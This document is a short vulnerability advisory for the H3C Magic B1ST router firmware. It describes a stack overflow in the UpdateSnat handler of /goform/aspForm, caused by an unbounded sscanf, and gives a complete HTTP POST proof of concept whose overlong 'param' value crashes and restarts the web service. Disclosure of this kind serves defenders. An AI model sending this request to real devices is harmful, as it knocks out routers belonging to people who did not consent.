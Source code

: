 ## Overview

> Vendor: H3C
> Product: Magic B1ST
> Version: H3C_Magic_B1STV100R012
> Type: Stack Overflow

## Vulnerability
In route`/goform/aspForm`, the value of the key `CMD` is `UpdateSnat`, the program will go into the following handling function.
![](assets/Pasted_image_20230606203713.png)

First it get the value of the key `param`, then use `sscanf` to copy the the value of `param` to a array `v11` on the stack. In this function, the length of `param` is limited to 511 Bytes，but `v11` only have 64 Byte. Also, the parameter `%s` of `sscanf` didn't limit the copy length.

![](assets/Pasted_image_20230606203957.png)
## PoC
```http
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 320
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/wan_new.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PSWMOBILEFLAG=true; USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=UpdateSnat&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
## Result
the process `webs` restart
![](assets/Pasted_image_20230606203915.png)
